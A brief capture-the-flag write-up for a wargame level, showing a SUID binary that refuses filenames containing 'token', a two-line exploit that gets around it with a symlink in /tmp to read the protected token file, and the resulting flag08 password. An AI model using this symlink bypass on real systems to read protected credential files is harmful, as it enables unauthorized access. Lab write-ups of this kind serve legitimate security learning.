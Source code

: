 **SUID** binary and token file that contain password of **flag08**
```
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

![alt text](image.png)


This script read file with **level08** permission only if the filename doesn't contain the word *'token'*

Exploit
```
ln -s /home/user/level08/token /tmp/t
./level08 /tmp/t
```

```
su flag08 / quif5eloekouj29ke0vouxean
```

